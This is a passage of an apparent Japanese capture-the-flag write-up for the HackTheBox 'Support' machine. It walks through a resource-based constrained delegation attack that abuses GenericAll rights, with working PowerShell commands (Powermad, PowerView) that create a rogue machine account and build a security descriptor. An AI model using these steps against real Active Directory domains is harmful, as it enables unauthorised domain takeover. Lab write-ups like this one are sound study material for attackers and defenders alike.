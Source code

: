 Shared Support Accountsというグループのメンバは、コンピュータdc.support.htbに対してGeneric All：

![alltodc](https://user-images.githubusercontent.com/85237728/194805252-d9fdfd2a-b0eb-41cf-956a-2cd91852b170.png)

このGeneric Allとはフルコントロールを意味する。

コンピュータオブジェクトをフルコントロールできる時、resource based constrained delegationアタックという攻撃手法がある。

（HTBのSupportを例にする）

[Powermad.ps1](https://github.com/Kevin-Robertson/Powermad)の`New-MachineAccount`で、新しくコンピュータアカウントを作成する：

```
*Evil-WinRM* PS C:\Users\support> . .\Powermad.ps1
*Evil-WinRM* PS C:\Users\support> New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
[+] Machine account attackersystem added
```
コンピュータアカウントが作成されたことを確認

```
*Evil-WinRM* PS C:\Users\support> . .\PowerView.ps1
*Evil-WinRM* PS C:\Users\support> Get-DomainComputer | select name

name
----
DC
MANAGEMENT
attackersystem
```

新規作成したコンピュータアカウントのSIDを取得する：

```
*Evil-WinRM* PS C:\Users\support> $ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
*Evil-WinRM* PS C:\Users\support> $ComputerSid
S-1-5-21-1677581083-3380853377-188903654-5101
```

この新規コンピュータアカウントのSIDを用いてACEの設定をする。
```
*Evil-WinRM* PS C:\Users\support> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
*Evil-WinRM* PS C:\Users\support> $SD


ControlFlags           : DiscretionaryAclPresent, SelfRelative
Owner                  : S-1-5-32-544
Group                  :
SystemAcl              :
DiscretionaryAcl       : {System.Security.AccessControl.CommonAce}
ResourceManagerControl : 0
BinaryLength           : 80
```

そして、新たなDACL/ACEに対するバイナリを取得しておく：

```
*Evil-WinRM* PS C:\Users\support> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support> $SD.GetBinaryForm($SDBytes, 0)
```






